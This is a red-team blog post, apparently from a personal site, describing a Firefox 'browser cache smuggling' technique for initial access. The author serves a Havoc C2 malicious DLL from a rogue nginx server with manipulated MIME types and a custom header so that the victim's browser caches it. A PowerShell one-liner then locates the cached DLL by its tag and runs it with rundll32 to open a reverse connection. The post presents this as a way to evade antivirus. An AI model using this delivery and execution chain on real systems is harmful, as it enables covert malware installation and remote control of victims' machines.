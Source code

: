 ```yaml
---
title: Firefox Cache Smuggling Attack
date: 2023-10-25 6:00:00 -500
categories:
  - red teaming
  - initial access
tags:
  - initialaccess
  - redteaming
  - firefox
  - cachesmuggling
  - exploitation
---
```

# Brower Cache Smuggling Attack

In the red team assessment initial access is always challenging task , as a red teamer we have to find our ways to get our first foothold to the network. Generally we use phishing attacks for that matter , try to trick user implement our social engineering skills and some how we try to make our victim download and run our stage1 payloads. But this are old tradecraft, these days they these technique doesn't work anymore.

Apart From that , these techniques are easily got flagged by AV software or EDR's . they can easily flag the anomaly for these TTPs , where we use certain download cradle to fetch the stage1 of our payload.  so, how to overcome those traditional methods.

in recent time , few CVE comes to highlight that provide good strategy in terms of initial access one of them is WINRAR remote code execution. which is very good. but threat intel for certain company would definatly fix it. (we can give a shot at least)

The new methodology that i would be talking about in this article is Browser cache smuggling attack for initial access to red teamer. This technique can be very powerful  for the initial delivery of our malware.  although it would require social engineering skills in place , but it is more sophisticated then traditional methods.

so, why should we use this technique ? , apart from the less practiced attack vector , this technique provide an excellent way to bypass initial AV detection . so , get ready to dive deeper !! lets start ........

# What is Browser cache 

When we visit any website  , there's lot of content that our browser fetches from the websites , like CSS, HTML , JavaScript , Images , Video , etc. Now our browser actually cache (save's a local copy) of certain data , that wont be change too frequently , example a browser would save a local copy of font file , images or JS . Browser implement this caching system to reduce the latency and increase the loading speed of the website for better user experience. Here is example of some cache files that are stored by Firefox at :

`C:\Users\szero\AppData\Local\Mozilla\Firefox\Profiles\i5se2r5j.default-release\cache2\entries` 

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025165334.png)

These files' names are randomly generate and stored to specific location by default without extension. For example , lets Clear these cache , and visit any website like google :

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025165703.png)

as you can see these are all the files that are cache by google, means these files are automatically save to local file system. 

If we just try to look from malicious perspective , our payload already gets saved locally without any interaction !! 
# How Caching Mechanisms Works Under the Hood

Brower's by default do not cache any file that they fetch , actually browser's main engine look for `content-type` header from the response of the webserver. Example look at this from google.

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025170427.png)

Here we can see its `image/png` , This is called mime type. The webserver uses these own mechanism for defining mime types, means on severing which file what should be it's mime type. generally Linux based server used the file at `/etc/mime.types` to map the content-type with the file type . example , look at these mime type mapping with file type :

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025171156.png)

form above we can see that if our webserver is delivering the file type of com , exe or bat or even Dll . then its content type would be `application/x-msdos-program`  .

Certain different Server use their own way of defining mime types , example nginx would use its own mime type file .

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025171547.png)

Now what if we manipulate the mime-type with wrong file type ?  you guessed it right !! Browser then can cache(save) our hosted data(malicious DLL here) as local copy !!  so we have to manipulate the mime-types for that ,  Once our malicious data gets cached by browser we just have to execute it on victim machine without worrying about the actually delivery of first staged payload !! 

Now again another problem, ok somehow we managed to cache the data !! what about execution ? how we gonna execute it ? 

So, when the browser keep the cache , apart from the original body of the cache data , it also stored HTTP headers along with cache data . so we can actually server our malicious payload with custom http header , that would provide us with ease to find the exact DLL file that we want to run. Example here we severed the data with custom http header `Tag: ENTERYPOINT`  , which will be cached by browser , then we can execute it by filtering on basis of this tag `ENTRYPOINT` . 

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025200839.png)

# How To Perform Browser Cache Smuggling

So, I have created a tool called **[BrowserCacheSmuggling](https://github.com/surya-dev-singh/BrowserCacheSmuggling)**  That will help in setting our Rouge HTTP server that will coerce the Browser to Cache the data , that was not indented to cache. 

**Here are the pre-requisite things that we will need** Before Running the tool :

- nginx installation
- [BrowserCacheSmuggling](https://github.com/surya-dev-singh/BrowserCacheSmuggling)
- Havoc / any other C2
- Linux machine
- victim machine with Firefox installed
### Step 1 : Generate Malicious DLL

First , Generate the malicious DLL , you can use any C2 , i would be following Havoc C2 . 

- For generating our malicious DLL from havoc c2, we first have to configure & start our listner by going to `view -> Listner` .

- Now we have generate our DLL by going to `attack -> Payload`  and configure the setting accordingly 

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025174208.png)

- Once we have our malicious DLL ready  , lets now move on to the step of manipulating the mime type of the server 

### Step 2 : Hosting Malicious Data 

- First clone the [BrowserCacheSmuggling](https://github.com/surya-dev-singh/BrowserCacheSmuggling) tool & Install the dependency `pip3 install -r requirements.txt` 

- Now lets Perform the attack with our malicious DLL like so : `python3 browsercachesmuggling.py --dll /root/smugglers.dll`

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025190619.png)

- It will server our malicious DLL . Now wait for the victim to visit your website . once victim visits your site . the DLL (which is hidden in browser page) will get cached by browser

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025191046.png)

- We will also gets logs when someone visits our Rouge server.

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025192341.png)

- Now since our DLL is cached by browser , we Now just have to run the following command on the victim to filter the specific DLL and execute it with `rundll32` .

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```

SO , This would Provide us with Reverse Connection !!

![](/assets/img/Cache Smuggling Attack/Pasted image 20231025195326.png)

And as you can see we got reverse connection , also it doesn't flagged by AV engine !! 
# Conclusion


This is one of the most sophisticated attack vector I have seen , it would provide best way to for the initial delivery of the malware or payload .

Thank for reading my article !
